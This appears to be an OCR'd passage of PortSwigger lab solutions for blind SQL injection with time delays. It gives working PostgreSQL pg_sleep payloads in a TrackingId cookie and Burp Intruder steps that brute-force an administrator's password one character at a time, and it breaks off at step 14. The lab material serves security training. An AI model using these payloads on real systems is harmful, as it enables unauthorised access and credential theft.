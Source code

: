 ### Lab: Blind SQL injection with time delays

1.  Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2.  Modify the `TrackingId` cookie, changing it to: `TrackingId=x'||pg_sleep(10)--`
3.  Submit the request and observe that the application takes 10 seconds to respond.

### Lab: Blind SQL injection with time delays and information retrieval

1.  Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2.  Modify the `TrackingId` cookie, changing it to: `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`. Verify that the application takes 10 seconds to respond.
3.  Now change it to: `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`. Verify that the application responds immediately with no time delay. This demonstrates how you can test a single boolean condition and infer the result.
4.  Now change it to: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. Verify that the condition is true, confirming that there is a user called `administrator`.
5.  The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. This condition should be true, confirming that the password is greater than 1 character in length.
6.  Send a series of follow-up values to test different password lengths. Send: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. Then send: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. And so on. You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), you have determined the length of the password, which is in fact 20 characters long.
7.  After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Send the request you are working on to Burp Intruder, using the context menu.
8.  In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
9.  In the Positions tab, change the value of the cookie to: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
10.  Place payload position markers around the `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers): `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
11.  To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
12.  To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to `1`.
13.  Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
14.  Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".